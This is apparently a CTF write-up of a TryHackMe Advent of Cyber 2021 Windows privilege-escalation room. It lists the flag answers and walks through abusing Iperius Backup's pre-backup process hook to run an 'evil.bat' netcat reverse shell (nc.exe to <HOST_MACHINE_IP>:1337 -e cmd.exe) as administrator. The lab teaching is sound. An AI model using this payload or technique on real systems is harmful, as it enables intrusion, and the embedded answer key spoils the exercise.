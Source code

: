# TryHackMe - Advent of Cyber 2021 - Day 13
## The Lost the Plan!
> Edward Hartmann
> December 29, 2021

***<u>Refs/Links:</u>***
- [Advent of Cyber 2021 TOC](Advent%20of%20Cyber%20Table%20of%20Contents.md)  
-  Tags[^1]
-  Flag[^2]

[^1]: #privsec #windows
[^2]: *Question 1:* `pepper`  
					*Question 2:* `10.0.17763 N/A Build 17763`  
					*Question 3:* `IperiusSvc`  
					*Question 4:* `C:\Program Files (x86)\Iperius Backup\IperiusService.exe`  
					*Question 5:* `thegrinch`  
					*Question 6:* `the-grinch-hack\thegrinch`  
					*Question 7:* `THM-736635221`  
					*Question 8:* `jazzercize`  

## TOC
- [Question 1](#Question-1)
- [Question 2](#Question-2)
- [Questions 3-4](#Questions-3-4)
- [Questions 5-6](#Questions-5-6)

## Walkthrough
In this box we are told that the disaster recovery plan, that was locked down to protect its security and confidentiality, has become inaccessible due to a decrease in privileges of McSkidy's account due to Grinch's shenanigans. Can we escalate the privileges back and save the disaster recovery plan?

To start, either use the Attack Box or RDP into the system with the `xfreerdp` utility:

```
xfreerdp /u:mcskidy /p:Password1 /v:<TARGET_IP>
```

The information included in the TryHackMe walkthrough is summarized in the [Windows Privsec](../../../knowledge-base/vulnerabilities/privesc.md#Windows) section of this note. 
### Privesc
[Top](#TOC)

We are told first that the *Iperius Backup Service* offers a  potential [privesc](../../../knowledge-base/vulnerabilities/privesc.md#Windows) vector due to its potential to run backup tasks with admin privileges despite the local users privilege level. Open the search bar in the bottom of the screen and search `Iperius` and launch the application. 

Start a new backup tasks by clicking the left-most icon on the menu bar and configure as follows. 

![Creating a Backup Task](AoC-2021_Photos/Day_13/01_AoC-Day-13_12-29-21-Iperius.png)

#### Source

In the `Items` tab on this screen select file icon with a `+` sign and set the path to `C:\Users\McSkidy\Desktop` and click `OK`. 

![Backup Path](AoC-2021_Photos/Day_13/02_AoC_Day_13_12-29-21-Backup-Path.png)

#### Destination

On the `Destinations` tab, select the same folder icon and make the destination the `Docuemnts` folder. 

![Destination Path](AoC-2021_Photos/Day_13/03_AoC_Day_13_12-29-21-Destination.png)

#### Executable

Here comes the exploit. In the `Other Processes` tab we can choose to run a program prior to the backup executes, and it will be ran as administrator. If this file is malicious, the attacker can successfully escalate privileges. 

We are instructed to utilize a `.bat`, which stands for `Batch`, a basic executable in windows similar to `.sh` in *UNIX* systems. This `.bat` file will use another file located in `C:\Users\McSkidy\Downloads\nc.exe`. Launch *notepad* and add the following code. 

```
@echo off 

C:\Users\McSkidy\Downloads\nc.exe <HOST_MACHINE_IP> 1337 -e cmd.exe
```

> You find the attacking IP by running `ip a` and using `eth0` for the Attack Box or `tun0` if you are on a VPN. 

![Editing Evil.bat](AoC-2021_Photos/Day_13/04_AoC_Day_13_12-29-21-Editing-Evil-Bat.png)

Save the file as `evil.bat` on the `Desktop`. Notice the little gear icon in the filename? Windows is telling you this is executable. 

What is happening? This file is calling the `Ncat` utility in our `Downloads` folder, a common tool used by attackers to create a reverse shell. Our code is telling `nc` to connect to our attacking machine IP on port `1337` and run a program wiith `-e`. The program we want ran is `cmd.exe`, the command prompt in Windows. 

#### Staging

On your host, prepare a `nc` listener. The great hing about `nc` is that we can connect `nc` to `nc` using a different set of flags. Run this on your host (the attacking host):

`nc -lvnp 1337`

This is listening, providing verbose output, not resolving domain names, and doing all of it on port `1337`. 

![nc Listening](AoC-2021_Photos/Day_13/06_AoC_Day_13_12-29-21-Listening.png)

Let's verify the payload works first. Double click `evil.bat` to run it and check back on your listening host, you should see a shell. Type `whoami` to confirm you are `mcskidy`. We have not escalated privileges yet, but this confirms that the payload works. Disconnect with <kbd>ctrl</kbd>+<kbd>c</kbd>

![Shell Connected](AoC-2021_Photos/Day_13/07_AoC_Day_13_12-29-21-Payload-Confirmed.png)

Great! That payload works, now we just need to run it as administrator using *Iperius*

#### Exploiting
Now we are ready to stage the exploit. Choose `evil.bat` to run on the `Other processes` tab before the backup. 

![Selecting evil.bat](AoC-2021_Photos/Day_13/05_AoC_Day_13_12-29-21-Selecting-Evil-File.png)

Click `Next`, give the job a name. Restart your listener on the attack box! 

On the main screen, right-click your Evil Backup and select `Run backup as service`. Notice that it is running as the admin user.

> User obscured to save the flag, try harder!

![Running Evil Backup](AoC-2021_Photos/Day_13/09_AoC_Day_13_12-29-21-Running-Evil-Backup.png)

If successful, after about a minute you should get a shell on your listener, and typing `whoami` will return 

![The Grinch Shell](AoC-2021_Photos/Day_13/10_AoC_Day_13_12-29-21-THEGRINCH.png)

Bingo! We have an admin shell on the machine. 
### Question-1
[Top](#TOC)
Now that we have a shell as admin, it is time to gather some information. 

The first question is asking for a username. The command `net users` should give is this info. 

![net users Info](AoC-2021_Photos/Day_13/11_AoC_Day_13_12-29-21-net-users.png)

### Question-2
[Top](#TOC)

How about the OS Version? `systeminfo` will tell us about the machine we are on. We can use the command from the guide in the beginning for some cleaner output. 

```
systeminfo | findstr /B /C:"OS Version"
```

![OS Version](AoC-2021_Photos/Day_13/12_AoC_Day_13_12-29-21-OS-Version.png)

### Questions-3-4
[Top](#TOC)

For questions about the services that are running, we want `wmic service list`. But we have a problem...there is a **huge** list of services. Part of learning to use commands is learning the power of those commands. With a little research (such as [here](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)) you can learn more about the `findstr` command used earlier to find the `OS Name` and `OS Version` and modify it to our needs. 

With `findstr`, we can ignore the case of the string we are searching for with `/i` and use a `regex` search by adding the `/r` flag. The regex we want is `.backup.`. Each `.` stands for a *wildcard* character, meaning all the line needs to contain is `backup` and it will return in the output. 

>Learn more about the `/B` and `/C`commands at the link as well!

It may take a few entries for this question to get the right one because Windows returns notoriously long output...but you'll find it here. 

![wmic Backup Search](AoC-2021_Photos/Day_13/13_AoC_Day_13_12-29-21-wmic-Iperius.png)

You can also identify the path to the service in this image...look closely. 

### Question-4
[Top](#TOC)

Simply type the command `whoami` to identify the user you are currently accessing the machine with. 

![whoami](AoC-2021_Photos/Day_13/14_AoC_Day_13_12-29-21-THEGRINCH.png)

### Questions-5-6
[Top](#TOC)

Finally, we need to find the contents of `flag.txt` and identify information about The Grinch's schedule.  You can find the files in the `Documents` directory of `thegrinch`. Use `cd` and `dirs` to change directories and list the files. The windows CLI command `type` will list the contents of the file for us once you are in the correct directory. Use the following commands. 

```
type flag.txt

type Schedule.txt
```

![Flag and Schedule](AoC-2021_Photos/Day_13/15_AoC_Day_13_12-29-21-Flag-and-Schedule.png)

And there you have it!

***Congratulations on completing this box!***  

See you at the next one &mdash; [Advent of Cyber 3 Day 14](AoC-2021_Day14.md)
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>

